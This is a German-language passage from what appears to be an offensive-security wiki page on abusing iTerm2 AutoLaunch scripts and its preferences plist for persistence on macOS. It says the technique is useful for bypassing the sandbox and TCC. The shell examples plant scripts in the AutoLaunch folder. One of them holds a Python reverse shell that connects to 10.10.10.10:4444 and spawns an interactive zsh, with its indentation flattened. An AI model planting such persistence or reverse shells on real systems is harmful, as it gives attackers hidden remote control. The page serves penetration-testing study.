 * Nützlich, um Sandbox zu umgehen: [✅](https://emojipedia.org/check-mark-button)
* TCC-Umgehung: [✅](https://emojipedia.org/check-mark-button)
* iTerm2 hatte früher gewährte TCC-Berechtigungen

#### Standorte

* **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch`**
* **Trigger**: iTerm öffnen
* **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch.scpt`**
* **Trigger**: iTerm öffnen
* **`~/Library/Preferences/com.googlecode.iterm2.plist`**
* **Trigger**: iTerm öffnen

#### Beschreibung & Ausnutzung

Skripte, die in **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch`** gespeichert sind, werden ausgeführt. Zum Beispiel:
```bash
cat > "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.sh" << EOF
#!/bin/bash
touch /tmp/iterm2-autolaunch
EOF

chmod +x "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.sh"
```
oder:
```bash
cat > "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.py" << EOF
#!/usr/bin/env python3
import iterm2,socket,subprocess,os

async def main(connection):
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.10.10',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['zsh','-i']);
async with iterm2.CustomControlSequenceMonitor(
connection, "shared-secret", r'^create-window$') as mon:
while True:
match = await mon.async_get()
await iterm2.Window.async_create(connection)

iterm2.run_forever(main)
EOF
```
Das Skript **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch.scpt`** wird ebenfalls ausgeführt:
```bash
do shell script "touch /tmp/iterm2-autolaunchscpt"
```
Die iTerm2-Einstellungen, die sich in **`~/Library/Preferences/com.googlecode.iterm2.plist`** befinden, können **einen auszuführenden Befehl angeben**, wenn das iTerm2-Terminal geöffnet wird.

Diese Einstellung kann in den iTerm2-Einstellungen konfiguriert werden:

<figure><img src="../.gitbook/assets/image (37).png" alt="" width="563"><figcaption></figcaption></figure>
